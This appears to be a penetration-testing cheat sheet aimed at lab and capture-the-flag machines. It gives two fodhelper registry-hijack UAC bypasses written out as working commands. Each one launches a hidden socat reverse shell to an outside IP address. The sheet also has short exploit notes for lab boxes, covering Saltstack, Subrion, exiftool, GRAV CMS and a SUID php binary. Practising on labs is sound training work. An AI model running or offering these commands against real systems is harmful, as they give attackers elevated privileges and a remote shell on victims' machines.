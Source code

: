 ```bash


```

## UAC Bypass
- Auto elevation
  - msconfig
  - azman.msc
- Using fodhelper
```bash
# first fire up netcat listener

# method1 
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.8.212.194:4444 EXEC:cmd.exe,pipes"
reg add %REG_KEY% /v "DelegateExecute" /d "" /f
reg add %REG_KEY% /d %CMD% /f & fodhelper.exe

# method2
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.8.212.194:4445 EXEC:cmd.exe,pipes"
reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
fodhelper.exe
```

# PG Grounds & HTB
## Linux Boxes

**Twiggy**
  - Foothold:
    - curl -v http://192.168.x.x:3000/
    - [Saltstack Exploit]()
  - No privesc

**Exfiltrated**
  - Foothold:
    - Subrion Exploit with admin:admin credentials
    - Manually uploaded a .phar file
  - PrivEsc:
    - Found a cronjob running every minute
    - /opt/image-exif.sh
    - Exiftool exploit and create malicious jpg file

**Astronaut**
  - Foothold:
    - [GRAV CMS Exploit](https://github.com/CsEnox/CVE-2021-21425/tree/main)
  - PrivEsc:
    - Uncommon setuid binaries
    - [/usr/bin/php7.4 exploit](https://gtfobins.github.io/gtfobins/php/#suid)
